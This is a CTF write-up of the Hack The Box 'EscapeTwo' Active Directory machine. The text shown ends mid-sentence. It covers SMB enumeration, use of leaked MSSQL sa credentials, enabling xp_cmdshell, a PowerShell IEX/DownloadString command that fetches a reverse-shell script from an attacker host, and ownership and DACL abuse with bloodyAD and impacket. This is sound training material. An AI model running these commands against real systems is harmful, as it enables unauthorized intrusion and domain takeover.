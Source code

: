 ```yaml
---
title: "EscapeTwo - Active Directory Machine HTB"
date: 2025-04-25 00:00:00 
categories: [Hack The Box,Active Directory]
tags: [HTB,CTFs,Active Directory]
---
```

![EscapeTwo machine banner](../pics/escape.png "EscapeTwo machine banner")

## 📝 Description

As is common in real-life Windows pentests, we begin this box with pre-given credentials:

**Username:** `rose`  
**Password:** `KxEPkKe6R8su`

---

## 🔍 Enumeration

We'll start with a basic **Nmap** scan using the following command:

```bash
nmap -sC -sV -sT 10.10.11.51
```
![nmap](../pics/nmap.png)
we will notice this valuable info 
```
DC01.sequel.htb
1433/tcp open  Microsoft SQL Server
389/tcp  open  LDAP
88/tcp   open  Microsoft Windows Kerberos
445/tcp  open  Microsoft-ds SMB
```
## 📁 SMB Enumeration

Let’s enumerate the **SMB protocol** using the credentials we obtained earlier.

We'll use a tool called **`smbmap`** to list accessible shares.

### 🛠️ Recon:

```bash
smbmap -u rose -p KxEPkKe6R8su -H sequel.htb
```
![](../pics/smb.png)
```plaintext
[+] IP: 10.10.11.51:445   Name: sequel.htb   Status: Authenticated

    Disk                   Permissions    Comment
    ----                   -----------    -------
    Accounting Department  READ ONLY
    ADMIN$                 NO ACCESS      Remote Admin
    C$                     NO ACCESS      Default share
    IPC$                   READ ONLY      Remote IPC
    NETLOGON               READ ONLY      Logon server share
    SYSVOL                 READ ONLY      Logon server share
    Users                  READ ONLY
    
```
Let's try to connect to smb and check accounting department 
![](../pics/files.png)
we found 2 files and we downloaded them to our local machine using "get" command in smb client

now lets check the type of these files 
![](../pics/filess.png)
we found out its not spreedshet its comprised file so after extracting the files and check them out we got these credentials:
![](../pics/xml%20.png)
we notice **sa** credentials
```
sa is the defult admin account for connecting and managing the MSSQL Database
``` 
### 🧩 Attempting MSSQL Access with `impacket-mssqlclient`

We try to connect to the MSSQL service using **default `sa` credentials**.

```bash
impacket-mssqlclient escapetwo.htb/sa:'MSSQLP@ssw0rd!'@10.10.11.51
```
![](../pics/sql.png)
Cool now we have to enable xp_cmdshell to be able to execute commands on the system we can enable it by : 
```bash
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
 ```
 ![](../pics/sqls.png)
 ### 🛠️ Trying to get reverse shell:
 okay let's get reverse shell on the machine 
 first we will need to craft our powershell script to give us reverse shell
 ![](../pics/shell.png)
 then we will run python server and make the machine to download it by this command :
 ```powershell
 EXEC xp_cmdshell 'powershell -ExecutionPolicy Bypass -c "IEX(New-Object Net.WebClient).DownloadString(''http://10.10.16.2/shellx.ps1'')"';
```
Boom we got reverse shell now :
![](../pics/frommachine.png)

after some digging i found configuration file leaking sql_svc information 
```bash
Wqxxxxxxxxxxxxxxxx
```
Also i found user called ryan : 
![](../pics/ryan.png)
Lets use these credintials to login and try to get the user flag : 
![](../pics/userflag.png)
we got the user flag now 
## ⚡privilege escalation
Let's use bloodhound in order to find somehting we can exploit in order to get privilege escalation 
![](../pics/bloodhound.png)

we see here that the user **ryan** has WriteOwner permission on CA_SVC so thats mean that **ryan** can change the Owner of CA_SVC.

CA_SVC is member of CERT_publisher so it has the right to be the certificate issuer.

we will use BloodyAD to perform this 
```
bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.
```
so let's do it and change the owner to ryan
![](../pics/blood.png)
Done :)

Now we need to abuse this and this attack called **Grant Rights Abuse**

### Grant Rights Abuse
In Active Directory (AD), Grant Rights abuse occurs when an attacker gains control over an object that has WriteDacl (Write permissions on the Discretionary Access Control List) over another object. This allows the attacker to modify the target object's DACL (Discretionary Access Control List) by adding a malicious Access Control Entry (ACE), effectively granting themselves or another account unauthorized privileges.

so we will modify the DACL (Discretionary Access Control List) of a target account **ca_svc** in Active Directory, granting full control to **ryan**

we will use impacket tool to perform this 
```bash
impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'user' -target 'ca_svc' 'sequel.htb'/"user":"password"
```

![](../pics/dacl.png)

okay now what ???
now after we changed the owner 